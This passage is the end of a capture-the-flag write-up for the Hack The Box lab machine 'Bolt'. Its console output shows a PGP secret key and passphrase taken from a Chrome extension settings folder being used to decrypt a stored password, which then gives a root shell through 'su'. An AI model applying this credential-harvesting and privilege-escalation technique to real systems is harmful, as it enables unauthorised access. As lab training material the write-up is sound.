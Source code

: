 ```console
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/bolt]
└─$ gpg --pinentry-mode loopback --passphrase merrychristmas -d secret.pgp
gpg: encrypted with 2048-bit RSA key, ID F65CA879A3D77FE4, created 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Signature made Sat 06 Mar 2021 04:33:54 PM CET
gpg:                using RSA key 1C2741A3DC3B4ABD
gpg: Good signature from "Eddie Johnson <eddie@bolt.htb>" [unknown]
gpg: WARNING: This key is not certified with a trusted signature!
gpg:          There is no indication that the signature belongs to the owner.
Primary key fingerprint: DF42 6BC7 A4A8 AF58 E50E  DA0E 1C27 41A3 DC3B 4ABD
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/bolt]
└─$ 

```
The password found in the decrypted message can be used to log in as root on the machine! 
```console
eddie@bolt:~/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf$ su -
Password: 
root@bolt:~# 
```
Rooted!